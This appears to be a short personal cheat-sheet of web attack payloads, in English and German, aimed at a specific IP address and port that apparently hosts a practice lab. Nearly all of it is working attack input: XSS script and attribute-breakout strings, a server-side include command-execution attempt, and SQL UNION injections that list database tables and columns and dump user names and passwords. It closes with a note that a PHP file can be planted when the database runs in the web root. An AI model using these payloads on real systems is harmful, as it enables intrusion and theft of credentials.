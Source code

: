 # SQL_XSS

XSS
<script>alert('blabla')</script>

#open a cmd and entre a command on a server using a injiection

<!--#exce cmd='ls ../-->

92.60.14.134:8081/xss/iframe3?path=asdfasdf" onload="alert('blabla')

http://92.60.14.134:8081/xss/jsvar1?count=99%22);alert(2);//

http://92.60.14.134:8081/xss/jsvar2?count=33);%3C/script%3E%3Cscript%3Ealert(2)%3C/script%3E

SQL Injection:
105 ' or 1=1 -- -'

http://92.60.14.134:8081/sql/1?category=animal' Union select @@version, null;-- -

Alles auszeigen lassen:
http://92.60.14.134:8081/sql/1?category=animal' Union select table_schema, table_name from 

information_schema.tables;-- -

http://92.60.14.134:8081/sql/1?category=animal' Union select table_name, column_name from 

information_schema.columns ;-- -

http://92.60.14.134:8081/sql/1?category=animal' UNION SELECT user_name,user_password FROM users;-- -

Wenn Datenbank im Root verzeichnis lauft, dann kann ein PHP file eingespielt werden.
